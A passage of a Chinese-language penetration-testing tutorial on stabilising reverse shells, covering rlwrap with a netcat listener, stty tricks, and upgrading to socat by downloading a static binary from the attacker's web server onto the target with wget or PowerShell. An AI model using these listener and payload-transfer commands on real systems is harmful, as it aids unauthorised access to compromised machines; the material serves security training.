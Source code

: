 Kali 默认没有安装 rlwrap，所以首先使用 `sudo apt install rlwrap` 安装它。 

使用 rlwrap 开启一个侦听器的语法很简单，仅需要在 nc 命令的前面加上 **rlwrap** 即可。


```bash
rlwrap nc -lvnp <监听的端口>
```

在我们的 netcat 侦听器前面加上 **“rlwrap”** 可以为我们提供一个功能更齐全的 shell。

这种技术在处理 Windows shell 时特别有用。(众所周知 Windows shell 很不稳定)。在处理 Linux 目标时，可以使用上述讲到的技术来加固 shell：
1. 使用 Ctrl + Z 挂起 shell
2. 使用如下命令加固 shell 并重新进入。
```bash
stty raw -echo；fg
```
 



#### 技术 3：Socat 

第三种稳定 shell 的方法是以 Netcat shell 为基础，得到一个更加稳定的 Socat shell。

>**请记住，此技术仅限于 Linux 目标**。因为 Windows 上的 Socat shell 不会比 netcat shell 更稳定。


为了实现这种稳定方法，我们首先需要将一个 [静态的 socat 编译的二进制文件](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)（一个编译为没有依赖关系的程序版本）传输到目标机器。

**如何上传文件到目标机器？**

一般的方法是在存放 socat 二进制文件的目录下开启一个 web 服务器（在攻击机器上），然后让目标机访问该 web 服务器并下载 socat 文件即可。

如果安装了 python，可以使用以下命令开启一个 web 服务器：

```python
sudo python3 -m http.server 80
``` 
若是 python2 的话，则应输入以下命令：

```bash
sudo python -m SimpleHTTPServer
```


然后就可以在目标机器的 netcat shell 上下载文件了。


如果 Linux 系统，可以使用 `curl` 或 `wget` (`wget <LOCAL-IP>/socat -O /tmp/socat`) 来下载文件。 

如果是 Windows 系统，可以使用 Powershell 完成相同的操作。比如使用 `Invoke-WebRequest` 或 webrequest 系统类，具体取决于安装的 Powershell 版本（`Invoke-WebRequest -uri <LOCAL-IP>/socat .exe -outfile C:\\Windows\temp\socat.exe`）。 


#### 更改终端 tty 大小

使用上述任何技术来改变你的终端 tty 大小是一件很有用的事情。这是您的终端在使用常规 shell 时会自动执行的操作。然而，如果您想使用类似文本编辑器的东西来覆盖屏幕上的所有内容，则必须在反向或正向 shell 中手动更改终端 tty 大小。 


首先，在攻击机上打开终端运行 `stty -a` 命令，并记下输出中 `rows` 和 `columns` 的值： 

![](https://i.imgur.com/v2oeT3e.png)
